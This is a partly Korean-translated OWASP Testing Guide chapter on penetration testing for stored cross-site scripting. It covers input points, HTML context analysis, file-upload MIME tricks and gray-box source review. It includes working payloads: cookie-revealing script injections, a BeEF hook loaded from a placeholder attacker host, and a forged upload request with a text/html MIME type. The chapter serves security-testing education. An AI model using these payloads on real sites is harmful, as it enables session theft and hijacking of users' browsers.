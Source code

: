 ============================================================================================
OTG-INPVAL-002 (저장형 크로스 사이트 스크립팅 침투 테스트)
============================================================================================

|

개요
============================================================================================ 

저장형 크로스 사이트 스크립팅은 XSS 중 가장 위협적인 형태입니다.

Web applications that allow users to store data are potentially exposed to this type of attack. This chapter illustrates examples of stored cross site scripting injection and related exploitation scenarios. 
Stored XSS occurs when a web application gathers input from a user which might be malicious, and then stores that input in a data store for later use. The input that is stored is not correctly filtered. As a consequence, the malicious data will appear to be part of the web site and run within the user's browser under the privileges of the web application. Since this vulnerability typically involves at least two requests to the application, this may also called second-order XSS. 
This vulnerability can be used to conduct a number of browser-based attacks including: 

- 다른 사용자 브라우저 하이재킹
- 어플리케이션 사용자에 의해 보이는 민감한 정보 캡쳐
- Pseudo defacement of the application 
- Port scanning of internal hosts ("internal" in relation to the users of the web application) 
- Directed delivery of browser-based exploits 
- Other malicious activities 

저장형 XSS는 공격할 수 있는 악성 링크는 필요 없습니다.
성공적인 공격은 사용자가 저장형 XSS 페이지에 접근할 때 발생합니다.
다음 과정은 일반적인 저장형 XSS 공격 시나리오 입니다.

- 공격자는 취한한 페이지로 악성 코드 저장
- 사용자가 어플리케이션에 인증
- 사용자가 취약한 페이지 방문
- 악성코드가 사용자 브라우저에 의해 실행됨

이러한 공격 형태는 BeEF, XSS Proxy, Backframe 과 같은 브라우저 공격 프레임워크로 공격할 수 있습니다.
이 프레임워크는 복잡한 자바스크립트 공격 개발 입니다.

저장형 XSS는 특히 높은 권한을 가진 사용자가 접근할 때 특히 위협적입니다.
관리자가 취약한 페이지에 접근했을 때, 공격은 브라우저에 의해 자동으로 실행됩니다.
이것은 세션 인증 토큰과 같은 민감한 정보를 노출할 수 있습니다.

|

테스트 방법
============================================================================================

|

Black Box testing
-----------------------------------------------------------------------------------------

저장형 XSS 취약점을 확인하는 과정은 반사형 XSS 취약점 테스트 과정과 유사합니다.

**Input Forms**

The first step is to identify all points where user input is stored into the back-end and then displayed by the application. 

사용자 입력이 저장되는 것을 찾을 수 있는 일반적인 예제

- 사용자/프로파일 페이지: the application allows the user to edit/ change profile details such as first name, last name, nickname, avatar, picture, address, etc. 
- 쇼핑 카트: the application allows the user to store items into the shopping cart which can then be reviewed later 
- 관일 관리: application that allows upload of files 
- 어플리케이션 설정/환경 설정: application that allows the user to set preferences 
- 포럼/메시지 보드: application that permits exchange of posts among users 
- 블로그: if the blog application permits to users submitting comments 
- 로그: if the application stores some users input into logs. 


HTML 코드 분석
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ 

Input stored by the application is normally used in HTML tags, but it can also be found as part of JavaScript content. At this stage, it is fundamental to understand if input is stored and how it is positioned in the context of the page. Differently from reflected XSS, the pen-tester should also investigate any out-of-band channels through which the application receives and stores users input. 

Note: All areas of the application accessible by administrators should be tested to identify the presence of any data submitted by users. 

|

**예제** 이메일은 index2.php에 저장된 데이터

[그림]

이메일 값이 위치한 index2.php HTML 코드

.. code-block:: html

    <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com" /> 

이 경우 테스터는 아래와 같이 <input> 태그로 삽입된 코드를 찾아야 합니다.

.. code-block:: html

    <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"> MALICIOUS CODE <!-- /> 

|

저장형 XSS 테스트
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

입력 검증 테스트 및 어플리케이션의 필터링 제어를 포함합니다.

기본 인젝션 예제

.. code-block:: html

    aaa@aa.com"><script>alert(document.cookie)</script> 

.. code-block:: html

    aaa@aa.com%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E 

입력이 어플리케이션을 통해 제출되어야 합니다.
일반적으로 클라이언트 측 보안 제어가 WebScarab과 같은 웹 프록시로 HTTP 요청이 구현되거나 수정된 경우 자바 스크립트를 비활성화합니다. 
HTTP GET과 POST 요청으로 같은 인젝션을 테스트해보는 것도 중요합니다.

위의 인젝션 결과는 팝업 윈도우에 쿠키값이 포함되는 것입니다.

**예상 결과** 

[그림]

.. code-block:: html

    <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com">
    <script>alert(document.cookie)</script> 

입력이 저장되고 XSS 페이로드는 페이지 리로드 시 브라우저에 의해 실행됩니다.
만약 입력이 어플리케이션에 의해 취소된다면, 테스터는 XSS 필터를 통해 어플리케이션을 테스트해야합니다.
예를 들어, 만약 "SCRIPT" 문자열이 공백 또는 NULL 문자로 수정된다면,  
XSS 필터를 해야합니다.
입력 필터를 우회하기 위한 수많은 기술이 존재하므로, 관련 문서를 찾아보기 바랍니다.

|

BeEF로 저장형 XSS 활용
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

저장형 XSS는 BeEF, XSS Proxy, Backframe과 같은 고급 Javascript exploitation frameworks 에 의해 공격할 수 있습니다.

일반적인 BeEF 공격 시나리오

- 공격자의 BeEF와 통신하는 자바스크립트 hook을 삽입
- 어플리케이션 사용자가 저장형 입력이 표시되는 취약한 페이지를 보기를 기다리기
- BeEF 콘솔을 통해 어플리케이션 사용자의 브라우저 제어

The JavaScript hook can be injected by exploiting the XSS vulnerability in the web application. 


**예제** BeEF Injection in index2.php: 

.. code-block:: html

    aaa@aa.com"><script src=http://attackersite/hook.js></script> 

When the user loads the page index2.php, the script hook.js is executed by the browser. 
It is then possible to access cookies, user screen-shot, user clipboard, and launch complex XSS attacks. 

**예상 결과**

[그림]

This attack is particularly effective in vulnerable pages that are viewed by many users with different privileges. 

|

File Upload 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If the web application allows file upload, it is important to check if it is possible to upload HTML content. 
For instance, if HTML or TXT files are allowed, XSS payload can be injected in the file uploaded. 
The pen-tester should also verify if the file upload allows setting arbitrary MIME types. 
Consider the following HTTP POST request for file upload: 

.. code-block:: html

    POST /fileupload.aspx HTTP/1.1 
    [...] 

    Content-Disposition: form-data; name="uploadfile1"; 
    filename="C:\Documents and Settings\test\Desktop\test.txt" 
    Content-Type: text/plain 

    test 

This design flaw can be exploited in browser MIME mishandling attacks. 
For instance, innocuous-looking files like JPG and GIF can contain an XSS payload that is executed when they are loaded by the browser. 
This is possible when the MIME type for an image such as image/gif can instead be set to text/html. 
In this case the file will be treated by the client browser as HTML. 


HTTP POST Request forged: 


.. code-block:: html

    Content-Disposition: form-data; name="uploadfile1"; 
    filename="C:\Documents and Settings\test\Desktop\test.gif" 
    Content-Type: text/html 
    
    <script>alert(document.cookie)</script> 

Also consider that Internet Explorer does not handle MIME types in the same way as Mozilla Firefox or other browsers do. 
For instance, Internet Explorer handles TXT files with HTML content as HTML content. 
For further information about MIME handling, refer to the whitepapers section at the bottom of this chapter. 

|

Gray Box testing 
-----------------------------------------------------------------------------------------

Gray Box testing is similar to Black box testing. In gray box testing, the pen-tester has partial knowledge of the application. In this case, information regarding user input, input validation controls, and data storage might be known by the pen-tester. 
Depending on the information available, it is normally recommended that testers check how user input is processed by the application and then stored into the back-end system. The following steps are recommended: 

- Use front-end application and enter input with special/invalid characters 
- Analyze application response(s) 
- Identify presence of input validation controls 
- Access back-end system and check if input is stored and how it is stored 
- Analyze source code and understand how stored input is rendered by the application 

If source code is available (White Box), all variables used in input forms should be analyzed. In particular, programming languages such as PHP, ASP, and JSP make use of predefined variables/functions to store input from HTTP GET and POST requests. 

The following table summarizes some special variables and functions to look at when analyzing source code: 

.. csv-table::

    "PHP","ASP","JSP"
    "$_GET","Request.QueryString","doGet"
    "$_POST","Request.Form","doPost"
    "$_REQUEST","","request.getParameter"
    "$_FILES","Server.CreateObject",""

|

Tools 
============================================================================================

- PHP Charset Encoder(PCE): http://yehg.net/encoding/
- HackVertor: http://www.businessinfo.co.uk/labs/hackvertor/
- WebScarab 
- Burp Proxy
- OWASP Zed Attack Proxy (ZAP)
- XSS Assistant: http://www.greasespot.net/ 
- XSS-Proxy: http://xss-proxy.sourceforge.net/ 
- BeEF -http://www.beefproject.com 

|

References
============================================================================================

OWASP Resources 
--------------------------------------------------------------------------------------------

- XSS Filter Evasion Cheat Sheet 


Books 
--------------------------------------------------------------------------------------------

- Joel Scambray, Mike Shema, Caleb Sima -"Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0 
- Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley,ISBN 978-0-470-17077-9 
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. 
Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749154-3 


Whitepapers 
--------------------------------------------------------------------------------------------

- CERT: "CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests": http://www.cert.org/advisories/CA-2000-02.html 
- Gunter Ollmann: "HTML Code Injection and Cross-site Scripting": http://www.technicalinfo.net/papers/CSS.html 
- CGISecurity.com: "The Cross Site Scripting FAQ": http://www.cgisecurity.com/xss-faq.html 

|